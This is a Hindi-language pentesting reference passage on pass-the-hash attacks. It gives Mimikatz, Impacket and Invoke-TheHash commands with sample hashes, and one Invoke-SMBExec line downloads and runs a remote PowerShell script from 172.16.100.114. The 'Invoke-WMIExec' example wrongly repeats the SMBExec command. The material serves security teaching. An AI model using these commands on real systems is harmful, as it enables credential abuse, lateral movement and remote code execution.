 ## पास-दी-हैश

**एक बार जब आपके पास पीड़ित का हैश हो**, तो आप इसका उपयोग **नकली** बनाने के लिए कर सकते हैं।\
आपको एक **उपकरण** का उपयोग करने की आवश्यकता है जो उस **हैश** का उपयोग करके **NTLM प्रमाणीकरण करेगा**, **या** आप एक नया **सत्रलॉगन** बना सकते हैं और उस **हैश** को **LSASS** के अंदर **इंजेक्ट** कर सकते हैं, ताकि जब भी कोई **NTLM प्रमाणीकरण किया जाए**, वह **हैश का उपयोग किया जाएगा।** अंतिम विकल्प वही है जो मिमिकैट्ज़ करता है।

**कृपया याद रखें कि आप कंप्यूटर खातों का उपयोग करके भी पास-दी-हैश हमले कर सकते हैं।**

### **मिमिकैट्ज़**

**प्रशासक के रूप में चलाने की आवश्यकता है**
```bash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:domain.tld /ntlm:NTLMhash /run:powershell.exe"'
```
यह एक प्रक्रिया शुरू करेगा जो उन उपयोगकर्ताओं से संबंधित होगी जिन्होंने mimikatz लॉन्च किया है, लेकिन आंतरिक रूप से LSASS में सहेजे गए क्रेडेंशियल्स वही हैं जो mimikatz पैरामीटर के अंदर हैं। फिर, आप नेटवर्क संसाधनों तक उस उपयोगकर्ता के रूप में पहुंच सकते हैं (जैसे `runas /netonly` ट्रिक, लेकिन आपको स्पष्ट-पाठ पासवर्ड जानने की आवश्यकता नहीं है)।

### लिनक्स से पास-थे-हैश

आप लिनक्स से पास-थे-हैश का उपयोग करके Windows मशीनों में कोड निष्पादन प्राप्त कर सकते हैं।\
[**यहां पहुंचें यह जानने के लिए कि इसे कैसे करना है।**](https://github.com/carlospolop/hacktricks/blob/master/windows/ntlm/broken-reference/README.md)

### Impacket Windows संकलित उपकरण

आप [यहां Windows के लिए impacket बाइनरी डाउनलोड कर सकते हैं](https://github.com/ropnop/impacket_static_binaries/releases/tag/0.9.21-dev-binaries)।

* **psexec_windows.exe** `C:\AD\MyTools\psexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.my.domain.local`
* **wmiexec.exe** `wmiexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local`
* **atexec.exe** (इस मामले में आपको एक कमांड निर्दिष्ट करने की आवश्यकता है, cmd.exe और powershell.exe इंटरएक्टिव शेल प्राप्त करने के लिए मान्य नहीं हैं)`C:\AD\MyTools\atexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local 'whoami'`
* कई और Impacket बाइनरी हैं...

### Invoke-TheHash

आप यहां से powershell स्क्रिप्ट प्राप्त कर सकते हैं: [https://github.com/Kevin-Robertson/Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)

#### Invoke-SMBExec
```bash
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```
#### Invoke-WMIExec
```bash
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```
#### Invoke-SMBClient
```bash
Invoke-SMBClient -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 [-Action Recurse] -Source \\dcorp-mgmt.my.domain.local\C$\ -verbose
```
#### Invoke-SMBEnum